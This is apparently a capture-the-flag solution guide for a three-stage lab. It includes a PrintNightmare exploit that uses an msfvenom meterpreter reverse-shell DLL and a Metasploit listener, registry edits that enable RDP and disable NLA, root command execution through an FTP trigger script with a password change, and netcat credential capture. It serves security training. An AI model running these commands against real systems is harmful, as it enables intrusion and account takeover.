


# Going the Distance Solution

## Accessing the closest ("Far") system (Windows10)

Based on the exploit provided and the challenge guide in the Desktop folder, players should deduce that this system is running Windows and is
vulnerable to the PrintNightmare exploit which is leveraging SMB.

Scan the network. The only other system found has a web server running, as well as the expected SMB
client port 445, and several RCP service ports.

```
nmap -sV -p 1-65535 176.194.115.244
```


Scanning the website with nikto reveals that there is a hidden admin page
available.

```
nikto -host 176.194.115.244
```


Accessing the hidden admin page reveals a link to a text file named
"creds.txt", which includes the SMB creds. The password is randomly
generated for each deployment. Note: if your password displays as ##password1##, please wait 60 seconds then refresh. 




Players should review the Github page in `~/Desktop/ChallengeFolder/Far` for information on the exploit and
how to use the python script.

Create the malicious dll using `msfvenom` using a LHOST of your Kali system (`176.194.115.252`).

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=176.194.115.252 LPORT=4444 -f dll -o evil.dll
```


Setup a msfconsole listener by first launching msfconsole in the
terminal. 

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j
```


Leave `metasploit` running and launch a new terminal. Now, run the exploit on
Kali. Make sure that the malicious `dll` file is in `/home/user`. 

```
sudo python3 ~/Desktop/ChallengeTasks/Far/CVE-2021-1675.py 'win10/User45:PASSWORD@176.194.115.244' '\\176.194.115.252\smb\evil.dll'
```


You may see an ERROR_DLL_INIT_FAILED message, but a session should show
up in your msfconsole listener.


Type in `sessions -i 1` to interact with this session, and
then elevate to a normal Windows command shell using `shell`, as shown
above.

You now have command line access and can enable RDP with the following
commands.

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



This should be enough to gain access, but just in case, we will also disable Network Level Authentication (NLA).

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```


Next restart Remote Desktop Service via
PowerShell.

```
powershell
Restart-Service -Force -DisplayName "Remote Desktop Services"
```


Then connect to the system via RDP with the standard user account creds - `user` \| `tartans` - to continue on with the challenge. Open a new terminal tab and enter the following:

```
rdesktop 176.194.115.244
```

Once connected, the flag will be found on the desktop. 


## Accessing the "Farther" system (Kali)

The `Farther` Kali system is hosting an FTP service. It requires the
player to leverage this service and a trigger file that will allow them to gain access to the system. Once players connect via FTP, they can read the README file in the landing
directory.

Again, some preliminary information can be found in the ChallengeTasks file on the `Near` Kali system Desktop.

Players should find the system and scan for running services that might grant them access. They can tell that
the Windows system is on the `54.198.212.0/24` network by checking
`ipconfig` or viewing the adapter settings. This is the network they
should scan.


Players will likely scan the entire `/24` network first to discover hosts.

```
nmap 54.198.212.*
```
Then run a more detailed scan of the system found. 

```
nmap -sV -p 1-65000 54.198.212.77
```


The port of the FTP service found will be randomized on each deployment of the exercise.

Players may use `WinSCP` or another tool to connect. The credentials are `user93` | `tartans`. They can be found on the `Near` console within `~/Desktop/ChallengeTasks/Farther`.


Once connected the player will see a `trigger.txt` and `master.sh` file. The player will be chrooted to
this directory but can edit the files or create new ones. Players must add a script or scripts to `master.sh` to be executed once the trigger file's
value is changed from "0" to "1".


It is up to the player to determine the course of action they wish to
take. There are several ways to accomplish the goal. A few will be listed below.

    - Change the 'user' account password to something known to be used later.
    - Run various 'ls' commands or copy output/files to the user93 directory to read them, which requires running 'pwd' to find the current directory of /var/ftp/challenge/user93.
    - Check a list of running or available services using 'service --status-all'
    - Use netcat to initiate a reverse command shell (after changing the user password) to have a more SSH-like experience versus running commands via the trigger file.


For the purposes of this guide, we will look at the option where the
player discovers that ssh is available and changes the user password.

Create a file named `actionlog.txt` and copy it to the ftp directory

Edit `master.sh` and add the following line:

```
service --status-all >> /var/ftp/challenge/user93/actionlog.txt
```

Edit `trigger.txt` and replace the contents with the following text: `1`

Wait for the results of the script to come back in `actionlog.txt`

See that ssh is installed but disabled


Update `master.sh` with the following text:

    service ssh start >> /var/ftp/challenge/user93/actionlog.txt

    service ssh status >> /var/ftp/challenge/user93/actionlog.txt

Edit `trigger.txt` and replace the contents with the following text: `1`

Wait for the results of the script and then check if ssh is now running


Players could also scan the system to ensure SSH is up and running

Now that ssh is running, try to access the system via ssh.

The system will reject connections for user93. Therefore, we must access the system using the standard 'user' account. To do so we must change the `user` account's password.

Update `master.sh` with the following text (any password could be used):

```
echo 'user:passwd123' | sudo chpasswd >> /var/ftp/challenge/user93/actionlog.txt
```

Edit `trigger.txt` and replace the contents with the following text: `1`

Wait for the script to run and attempt to login with the new credentials. Note: Output may not show in the `actionlog.txt` file.

```
ssh user@54.198.212.77
```

If successful, you will land in the `/home/user` directory. The token value will be printed within the flag.txt
file.

```
ls
cat flag.txt
```


## Accessing the "Farthest" system (Kali)

The `Farthest` Kali system has two clues:

1.  A netcat sender is sending a credentials file to random IPs on random ports. This can be found by looking in the `~/Desktop/ChallengeTasks/Farthest/capture.pcapng` file on the `Near` console.

2.  The ssh service will accept these credentials, however, the service swaps ports every 20 second in a pattern. It increments its starting value by `333` for 10 iterations before returning to the original port.

The first thing players are likely to do is review the pcap, as detailed
in the instructions. As the note alludes to netcat traffic being sent from the target, players should look for traffic
coming from a foreign source.

There is a pattern to the tcp traffic over nonstandard ports from `136.159.61.146`.  This host is repetitively sending exactly 1 packet to 5 different sources. 


The target's IP will be `136.159.61.146` and the destination will be `136.159.61.231`. This is what players should set their own IP to.

You can then filter for just this traffic to see how it was sent in real time.


The target sends a packet to five different hosts, each with 2 different
ports, always about 30 seconds apart. The port increments by 1234, then
decrements by 753 on each pass. Only twice per rotation will it send
data to each address.

Since the netcat sender never reaches its destination, the contents are
never revealed, so player's must set up a listener to capture the data.

Once players recognize that there is a pattern, they should set their ip to `136.159.61.231` and initiate a netcat listener
on either port `40962` or `42196`. The maximum wait time would be `5`
minutes. Once the cycle repeats itself, the player should receive the file which contains credentials for the target.

```
sudo ifconfig eth1 136.159.61.231 netmask 255.255.255.0
nc -l -p 42196 > output
```


Note that the password will be randomly generated for each deployment,
though the username will stay the same.

Next, the player needs to figure out how to access the target. 

Scan the target using `nmap`. Scanning the host with the simplest parameters won't return
anything, since the service is running on a port higher than 1000.

```
nmap 136.159.61.146
```


Scanning all of the ports will take longer, but will display an open
port.

```
nmap -p 1000-65535 136.159.61.146 
```


Scanning all of the ports with service detection is the best method. It will reveal that the open service is SSH. 

```
nmap -sV -p 1000-65535 136.159.61.146 
```


By the time players try to SSH into the system, the port and service will have changed.


Each time the port changes, it increases by 333. After 10 iterations it
returns to its original which takes roughly 5 minutes.

Therefore, players must scan and predict the next port in service. Once connected, the ports will stop changing and the script will end. This ensures players are never disconnected, but if they manually disconnect before finding the flag, the script will start again. Once SSH'ed into the system, the a flag file will be present. 

```
ssh user12@136.159.61.146 -p PORT
ls
cat flag.txt
```


## Appendix: List of Addresses and Ports Used

Far: 176.194.115.244

Farther: 54.198.212.77

Farthest: 136.159.61.146, sends to 136.159.61.231 over ports 40962 and
42196

SSH starts at port 20300 and goes up by 333 ten times and reverts back
to 20300.